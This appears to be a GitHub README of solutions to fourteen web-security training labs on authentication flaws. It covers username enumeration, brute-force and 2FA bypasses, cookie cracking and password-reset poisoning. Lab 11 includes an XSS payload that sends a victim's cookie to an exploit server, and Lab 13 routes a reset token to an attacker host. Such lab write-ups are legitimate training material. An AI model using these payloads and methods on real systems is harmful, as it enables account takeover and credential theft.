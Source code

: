 <div align='center'>

# **Authentication vulnerabilities**

</div>

## **SQL injection in different contexts**

### **Lab 1:** Username enumeration via different responses

**Solution:** We rely on the respond of the request when we enter the username ('Invalid username' when we enter wrong username, 'Invalid password' when we enter valid username) to enumerate the username. When we get the username, use the wordlist to get the right password. 

**Solution script:** [passLab1.py](./passLab1.py)

### **Lab 2:** Username enumeration via subtly different responses

**Solution:** We rely on the respond of the request when we enter the username ('Invalid username or password.' when we enter wrong username, 'Invalid username or password ' when we enter valid username) to enumerate the username. When we get the username, use the wordlist to get the right password. Solution script: [passLab2.py](./passLab2.py)

### **Lab 3:** Username enumeration via response timing

**Solution:** Use X-Forwarded-For header to bypass IP-brute-force protection. Notice that when we enter valid username, nothing happened. However, when we enter invalid username, the respond time is very long if we enter a very long password. Therefore, we can ultilize that fact to enumerate the username and then use the wordlist to get the password. 

**Solution script:** [passLab3.py](./passLab3.py)

### **Lab 4:** Broken brute-force protection, IP block

**Solution:** We see that if we loggin incorrectly 3 times in a row, the IP address is temporarily blocked. Therefore, we will login 2 times and then login with right credential (wiener:peter). Repeat this process until we get the right password. 

**Solution script:** [passLab4.py](./passLab4.py)

### **Lab 5:** Username enumeration via account lock

**Solution:** We see that if we loggin incorrectly with right account 5 times in a row, the account is temporarily blocked. Therefore, if we login as an invalid username, nothing is blockes. We can ultilize that fact to enumerate the username. When we get the username, use wordlist to find password. If the respond does not contain any error message, the password is right. 

**Solution script:** [passLab5.py](./passLab5.py)

### **Lab 6:** Broken brute-force protection, multiple credentials per request

**Solution:** In the post request to /login endpoint, change to request body to:
```javascript
{
    'username': 'carlos',
    'password': [
        (list of password)
    ]
}
```

**Solution script:** [passLab6.py](./passLab6.py)

## **Vulnerabilities in multi-factor authentication**

### **Lab 7:** 2FA simple bypass

**Solution:** Login as credential carlos:montoya and then change the endpoint to /my-account to access to the Carlos's account page

**Solution script:** [multiLab1.py](./multiLab1.py)

### **Lab 8:** 2FA broken logic

**Solution:** Send a GET request to the /login2 endpoint with cookies:
```javascript
{'verify': 'carlos'}
```
Then brute force for the mfa-code in the POST request to the /login2 endpoint with that same cookies. (mfa-code is between 0000 and 9999)

**Solution script:** [multiLab2.py](./multiLab2.py)

### **Lab 9:** 2FA bypass using a brute-force attack

**Solution:** We see that when enter the wrong code for second authentication twice, we will be logged out. Therefore, we will brute force for the code by attemp one time then login again. Repeat this process until we find the right code

**Solution script:** [multiLab3.py](./multiLab3.py)

## **Vulnerabilities in other authentication mechanisms**

### **Lab 10:** Brute-forcing a stay-logged-in cookie

**Solution:** For each password in the wordlist, caculate md5 hash of the password, we will call it md5(password). Then make a cookie:
```javascript
{'stay-logged-in': base64(carlos:md5(password))}
```
base64(string) is the base64 encoded of a string.

**Solution script:** [otherLab1.py](./otherLab1.py)

### **Lab 11:** Offline password cracking

**Solution:** The format of the cookie is the same as the one from Lab 10. We see that this website is vulnerable to XSS in the comment section

![XSS](./img/otherLab2.png)

Therefore, we use this payload to steal carlos's cookie

```javascript
<script>document.location="{}/"+document.cookie</script>.format(exploit_server)
```

When we go to the access log of the exploit server, we see a request came from carlos containing his cookie

![Cookie](./img/otherLab2-1.png)

Decode the cookie using Base64, we get:
```
carlos:26323c16d5f4dabff3bb136f2460a943
```

Using [Crack Station](https://crackstation.net/), we get the password `onceuponatime`

![Hash](./img/otherLab2-2.png) 

**Solution script:** [otherLab2.py](./otherLab2.py)

### **Lab 12:** Password reset broken logic

**Solution:** Make a POST request to endpoint '/forgot-password?temp-forgot-password-token=' with the request body 
```javascript
{
    'temp-forgot-password-token': '', 
    'username' : 'carlos', 
    'new-password-1': '123456', 
    'new-password-2': '123456'
}
```

This will change password of user carlos to 123456. Then login as user carlos with password 123456 to solve the lab

**Solution script:** [otherLab3.py](./otherLab3.py)

### **Lab 13:** Password reset poisoning via middleware

**Solution:** Make a POST request to the endpoint '/forgot-password' with header 
```
X-Forwarded-Host: (your exploit server)
```
and request body
```javascript
{'username': 'carlos'}
```
This will create the URL containing the exploit server's domain and carlos's reset token which will sent to carlos's email. When he click that URL, the request will be recorded in the access log.

![Log](./img/otherLab4.png)

When you have a token, go to endpoint '/forgot-password?temp-forgot-password-token=(carlos's token) to reset carlos's password

### **Lab 14:** Password brute-force via password change

**Solution:** Firstly, login as wiener. Then, use brute force with the wordlist to make a POST request to endpoint '/my-account/change-password' with the request body:
```javascript
{
    'username': 'carlos', 
    'current-password': password in the wordlist, 
    'new-password-1': '1', 
    'new-password-2': '2'
}
```
Note that the new-password-1 and new-password-2 has to be different

If the respond contain message 'New passwords do not match', that mean this is a password of the user carlos.

**Solution script:** [passResetLab.py](./passResetLab.py)